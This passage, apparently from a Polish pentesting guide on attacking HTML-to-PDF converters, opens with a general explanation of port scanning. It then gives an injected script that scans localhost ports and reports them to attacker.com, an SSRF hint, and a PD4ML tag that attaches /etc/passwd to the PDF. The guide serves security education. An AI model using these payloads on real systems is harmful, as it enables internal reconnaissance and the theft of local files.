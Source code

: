 Port scanowanie jest jedną z podstawowych technik stosowanych w testach penetracyjnych. Polega na skanowaniu otwartych portów na docelowym systemie w celu identyfikacji usług działających na tych portach. Pozwala to na zidentyfikowanie potencjalnych podatności i ewentualne wykorzystanie ich w celu uzyskania nieautoryzowanego dostępu.

Istnieje wiele narzędzi dostępnych do przeprowadzania skanowania portów, takich jak Nmap, Masscan czy Zmap. Te narzędzia umożliwiają skanowanie pojedynczych portów, zakresów portów lub nawet całych sieci w poszukiwaniu otwartych portów.

Podczas skanowania portów ważne jest zachowanie ostrożności i przestrzeganie zasad etyki hackingu. Należy uzyskać uprawnienia do przeprowadzenia skanowania portów na systemie, który jest w pełni kontrolowany przez Ciebie lub na który masz zgodę właściciela systemu.

Wyniki skanowania portów mogą dostarczyć cennych informacji na temat infrastruktury sieciowej i potencjalnych podatności. Należy jednak pamiętać, że skanowanie portów może być uznane za nielegalne, jeśli jest przeprowadzane bez zgody właściciela systemu. Zawsze należy działać zgodnie z obowiązującymi przepisami prawnymi i etycznymi standardami.
```markup
<!--Scan local port and receive a ping indicating which ones are found-->
<script>
const checkPort = (port) => {
fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
let img = document.createElement("img");
img.src = `http://attacker.com/ping?port=${port}`;
});
}

for(let i=0; i<1000; i++) {
checkPort(i);
}
</script>
<img src="https://attacker.com/startingScan">
```
### [SSRF](../ssrf-server-side-request-forgery/)

Ta podatność może być bardzo łatwo przekształcona w SSRF (ponieważ można zmusić skrypt do ładowania zewnętrznych zasobów). Spróbuj wykorzystać to (odczytaj jakieś metadane?).

### Załączniki: PD4ML

Istnieją niektóre silniki HTML 2 PDF, które pozwalają na **określanie załączników dla pliku PDF**, takich jak **PD4ML**. Można wykorzystać tę funkcję, aby **dołączyć dowolny plik lokalny** do pliku PDF.\
Aby otworzyć załącznik, otworzyłem plik za pomocą **Firefoksa i dwukrotnie kliknąłem symbol spinacza** aby **zapisać załącznik** jako nowy plik.\
Przechwycenie **odpowiedzi PDF** za pomocą narzędzia Burp powinno również **pokazać załącznik w czystym tekście** wewnątrz pliku PDF.

{% code overflow="wrap" %}
```html
<!-- From https://0xdf.gitlab.io/2021/04/24/htb-bucket.html -->
<html><pd4ml:attachment src="/etc/passwd" description="attachment sample" icon="Paperclip"/></html>
```
{% endcode %}
